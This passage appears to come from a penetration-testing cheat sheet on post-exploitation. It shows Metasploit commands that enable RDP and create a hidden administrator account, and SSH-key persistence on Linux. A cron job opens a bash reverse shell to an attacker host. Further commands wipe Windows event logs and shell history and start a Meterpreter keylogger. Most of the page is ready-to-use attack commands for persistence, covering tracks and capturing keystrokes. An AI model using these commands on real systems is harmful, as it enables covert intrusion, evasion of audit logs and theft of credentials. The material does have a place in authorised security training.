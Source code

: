 **(2) Enable RDP**

* First way with metasploit: search `enable_rdp` (and set session). Then connect to victim.

{{< hint style=notes >}}
**Note**: you need username and password, if you don't have the password, change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM or you can create a new account and add it to administrator group.
{{< /hint >}}

* Second way with metasploit/meterpreter (auto create account and settings):

```sh
# In meterpreter
run getgui -e -u user_you_want -p password_you_want

# This enables rdp service -> 
# Creates new user with the provided parameters -> 
# Hides user from windows login screen -> 
# Adds user to Remote Desktop Users and Administrators group
```

### Linux

**(1) Metasploit:** Search persistence module (Linux). Example: `post/linux/manage/sshkey_persistence` (needed elevated privs - This module will add an SSH key to a specified user)

**(2) Via SSH key:** After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH

**(3) With cron jobs**

```sh
# 1. Set up listener
# 2. Create a cronjob (every minute time format)
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron 
# 3. This will replace the user's existing crontab with the contents of 'cron'
crontab cron

# Crontab for the current user
crontab -l 
# NOTE: if the command doesn't work try with another revshell
```

## Clearing tracks

**Windows**

```sh
# Metasploit/Meterpreter
clearev  # Clear the Application, System, and Security logs on a Windows system
```

**Linux**

```sh
history -c                          # Clear history
cat /dev/null > ~/.bash_history     # Same as above
```

## Keylogger

```sh
# With metasploit
keyscan_start          # Start keylogger
keyscan_dump print     # Captured strokes
```

